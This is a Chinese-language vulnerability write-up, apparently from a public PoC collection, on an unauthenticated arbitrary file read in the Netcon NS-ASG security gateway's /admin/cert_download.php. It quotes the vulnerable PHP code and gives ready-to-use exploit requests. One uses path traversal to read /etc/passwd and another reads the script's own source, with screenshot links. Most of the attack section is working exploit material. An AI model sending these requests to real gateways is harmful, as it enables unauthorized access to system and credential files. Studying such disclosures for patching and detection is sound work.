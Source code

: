 # 网康 NS-ASG安全网关 任意文件读取漏洞

## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

> [!NOTE]
>
> 网康 NS-ASG安全网关 

## FOFA

> [!NOTE]
>
> 网康 NS-ASG安全网关

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?> 
```

此文件没有对身份进行校验即可下载任意文件

```
/admin/cert_download.php?file=pqpqpqpq.txt&certfile=../../../../../../../../etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/qax-1.png)

```
/admin/cert_download.php?file=pqpqpqpq.txt&certfile=cert_download.php
```

![](http://wikioss.peiqi.tech/vuln/qax-2.png)